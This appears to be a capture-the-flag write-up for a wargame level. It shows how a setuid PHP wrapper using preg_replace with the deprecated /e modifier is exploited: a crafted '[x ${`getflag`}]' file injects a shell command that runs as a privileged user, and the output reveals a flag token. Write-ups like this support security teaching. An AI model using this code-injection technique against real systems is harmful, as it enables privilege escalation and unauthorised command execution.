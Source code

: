 
In our home directory, we have an executable with suid, and a php script allowing us to know what the executable does:
        >$ ls -la
        -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
        -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

        >$ cat level06.php
                #!/usr/bin/php
                <?php
                function y($m) {
                    $m = preg_replace("/\./", " x ", $m);
                    $m = preg_replace("/@/", " y", $m);
                    return $m;
                    }
                function x($y, $z) {
                    $a = file_get_contents($y);
                    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
                    $a = preg_replace("/\[/", "(", $a);
                    $a = preg_replace("/\]/", ")", $a); return $a;
                }
                $r = x($argv[1], $argv[2]); print $r;
                ?>

In the second function called by the script, we see the use of a regex with /e modifier, 
and this modifier is depecrated in recent php regex flags, 
so if it is set, preg_replace() does normal substitution of backreferences in the replacement string, 
evaluates it as PHP code, and uses the result for replacing the search string, 
so it can easily introduce remote code execution vulnerabilities.

so we can exploit this by passing our own code, which will be evaluated as PHP code and executed as user flag06.

our argument should pass the regex test `"/(\[x (.*)\])/e"`, and respect the form `[x <our PHP code>]`:
        >$ echo '[x ${`getflag`}]' > /tmp/getflag
        >$ cat /tmp/getflag
        [x ${`getflag`}]

When we run the executable, passing our file as argument:
        >$ ./level06 /tmp/getflag
        PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
        in /home/user/level06/level06.php(4) : regexp code on line 1

Vulnerability:
Deprecated /e regex modifier in script owned by privileged user -> Privilege escalation via PHP code injection.

Documentations:
* https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
* https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.nowdoc
* https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier